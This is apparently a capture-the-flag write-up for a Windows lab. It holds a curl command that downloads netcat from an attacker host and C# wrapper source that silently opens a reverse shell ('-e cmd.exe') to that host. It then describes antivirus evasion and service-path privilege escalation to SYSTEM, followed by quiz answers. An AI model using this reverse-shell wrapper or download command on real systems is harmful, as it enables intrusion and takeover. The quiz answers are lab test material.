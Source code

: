```curl http://10.50.82.104/nc64-sv.exe -o c:\\windows\\temp\\nc-sv.exe```

```cs
using System;
using System.Diagnostics;

namespace Wrapper{
        class Program{
                static void Main(){
                        Process proc = new Process();
                        ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-sv.exe", "10.50.82.104 4444 -e cmd.exe");
                        procInfo.CreateNoWindow = true;
                        proc.StartInfo = procInfo;
                        proc.Start();
                }
        }
}
```

* After compiling the exploit code using Mono ```mcs``` compiler, we have a ```Wrapper.exe``` PE.

* We can then setup an ```impacket``` SMB server to transfer files instead of ```curl``` for no particular reason.

* After copying the exploit to the current user's 'Temp' directory, we can disconnect from the SMB server as we will not need it.

* Setting up a listener and running the exploit normally results in getting shell; so the AV does not flag this.

* As we have write permissions in the directory ```C:\Program Files (x86)\System Explorer\```, we can transfer our exploit to that directory.

* After moving the exploit, we need to kill the second listener (setup for testing purposes); then we can restart the vulnerable service by stopping and then starting it again.

* Only this time, starting the service does not properly start it; however, we get a shell on our listener as 'nt authority\system'.

```markdown
1. Which category of evasion covers uploading a file to the storage on the target before executing it? - On-disk evasion

2. What does AMSI stand for? - Anti-Malware Scan Interface

3. Which category of evasion does AMSI effect? - In-memory evasion

4. What other name can be used for Dynamic/Heuristic detection methods? - Behavioural

5. If AV software splits a program into small chunks and hashes them, checking the results against a database, is this a static or dynamic analysis method? - Static

6. When dynamically analysing a suspicious file using a line-by-line analysis of the program, what would antivirus software check against to see if the behaviour is malicious? - pre-defined rules

7. What could be added to a file to ensure that only a user can open it (preventing AV from executing the payload)? - Password

8. What is the Host Name of the target? - WREATH-PC

9. What is our current username (include the domain in this)? - wreath-pc\thomas

10. What output do you get when running the command: certutil.exe? - CertUtil: -dump command completed successfully.

11. One of the privileges on this list is very famous for being used in the PrintSpoofer and Potato series of privilege escalation exploits -- which privilege is this? - SeImpersonatePrivilege
```